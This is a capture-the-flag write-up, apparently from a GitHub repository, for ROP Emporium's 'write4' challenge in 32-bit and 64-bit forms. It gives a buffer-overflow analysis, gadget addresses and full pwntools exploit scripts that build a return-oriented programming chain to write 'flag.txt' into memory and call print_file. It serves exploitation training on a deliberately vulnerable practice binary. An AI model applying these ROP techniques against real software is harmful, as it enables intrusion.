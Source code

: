 # write


* Architecture: x86 (32-bit)


Link : [write4](https://ropemporium.com/challenge/write4.html)

Binary : [write4 x86](https://github.com/w31rdr4v3n/Binary-Exploitation/raw/main/ROP/data/ropemporium/write432.zip)



## Challenge Overview

The `write432` challenge is part of ROP Emporium's x86 Return-Oriented Programming (ROP) practice exercises. The objective is to use ROP techniques to write the string `flag.txt` into the `.data` section of the binary and call the `print_file` function to read and display the file's contents.


## Challenge Details

* Binary Name: `write432`

* Architecture: x86 (32-bit)

* Vulnerability: Buffer overflow in the `pwnme` function, allowing control of the program's execution flow.

* Goal: Exploit the buffer overflow to:

* Write `flag.txt` into the `.data` section of memory.

* Call `print_file` with the address of the `.data` section as its argument.



## Vulnerability Analysis


### The `main` Function (Program Code)

The `main` function in the `write432` binary serves as the entry point:

![main](data/main.png)

It simply calls the vulnerable pwnme function.


### The `pwnme` Function (From `libwrite432.so`)

The `pwnme` function is the vulnerable entry point:

![pwnme](data/pwnme.png)


* Buffer Overflow: The function reads up to 512 bytes into a 36-byte buffer (`s`), allowing for overwriting of the saved return address.


### The `print_file` Function (From libwrite432.so)

The `print_file` function reads and prints the contents of a specified file:


![print_file.png](data/print_file.png)

* Purpose: Opens the file specified by the `filename` argument, reads its content into a buffer, and prints it.

* Address in Binary: 0x080483d0

![add_print_file](data/add_print_file.png)


```
> ROPgadget --binary write432

0x08048543 : mov dword ptr [edi], ebp ; ret
0x080485aa : pop edi ; pop ebp ; ret
```

![section](data/section.png)


### Key Gadgets (From Program Code)

ROP gadgets required to exploit the vulnerability:

1. `pop edi; pop ebp; ret` (Address: `0x080485aa`):

		* Loads values into `edi` (target memory address) and `ebp` (data to write).

2. `mov dword ptr [edi], ebp; ret` (Address: `0x08048543`):

		* Writes the value in `ebp` to the memory address pointed to by `edi`.


### Writable Memory Section

* `.data` Section: Address starts at `0x0804a018` and is writable, making it suitable for storing `flag.txt`.


## Exploitation Steps


### Step 1: Write `flag.txt` to the `.data` Section

Using ROP gadgets, the string `flag.txt` is written in two parts:

1. Write flag to `0x0804a018`.

2. Write .txt to `0x0804a018+4`.


### Step 2: Call `print_file`

After constructing the string in memory, the `print_file` function is called with the address of the `.data` section as its argument.

## Exploit Code

```py
from pwn import *

sh = process("./write432")

print(sh.recv().decode())

payload = b"A"*44

# Write 'flag' to .data
payload += p32(0x080485aa) # pop edi ; pop ebp ; ret
payload += p32(0x0804a018) # .data
payload += b"flag"
payload += p32(0x08048543) # mov dword ptr [edi], ebp ; ret

# Write '.txt' to .data + 4
payload += p32(0x080485aa) # pop edi ; pop ebp ; ret
payload += p32(0x0804a018 + 4) # .data
payload += b".txt"
payload += p32(0x08048543) # mov dword ptr [edi], ebp ; ret

# Call print_file("flag.txt")
payload += p32(0x80483d0) # print_file
payload += b"A"*4		  # Padding
payload += p32(0x0804a018) # .data

sh.sendline(payload)
print(sh.recv().decode())
```



## Explanation of the ROP Chain

### Writing to Memory

The ROP chain uses gadgets to write arbitrary values to memory:

1. `pop edi; pop ebp; ret`: Loads the destination address (`edi`) and the value to write (`ebp`).

2. `mov dword ptr [edi], ebp; ret`: Writes the value in `ebp` to the memory location pointed to by `edi`.

By chaining these gadgets, `flag` and `.txt` are written to consecutive memory locations in the `.data` section.


### Calling `print_file`

Finally, the `print_file` function is called with the address of `flag.txt` in the `.data` section. Padding ensures proper alignment of the stack.


## Exploit Output

Running the exploit produces the following output:

![exploit](data/exploit.png)


This challenge demonstrates the fundamentals of ROP exploitation on x86 binaries and highlights the importance of secure memory management.



* Architecture: x64 (64-bit)


The `write4` challenge involves exploiting a buffer overflow to write the string `flag.txt` into the writable `.data` section and calling the `print_file` function to read and print its contents.

Key Steps:

    * Writing `flag.txt`: Use the `pop r14; pop r15; ret` and `mov qword ptr [r14], r15; ret` gadgets to write `flag.txt` into the `.data` section at `0x601028`.
    * Calling `print_file`: Use the `pop rdi; ret` gadget to set the first argument (`rdi`) to the `.data` section address and call the `print_file` function.


```py
from pwn import *

sh = process("./write4")

print(sh.recv().decode())

payload = b"A"*(40)

payload += p64(0x0000000000400690) # pop r14 ; pop r15 ; ret
payload += p64(0x0000000000601028) # .data
payload += b"flag.txt"
payload += p64(0x0000000000400628) # mov qword ptr [r14], r15 ; ret

# Call print_file

payload += p64(0x0000000000400693) # pop rdi ; ret
payload += p64(0x0000000000601028) # .data
payload += p64(0x00400510) # print_file

sh.sendline(payload)
sh.interactive()
```
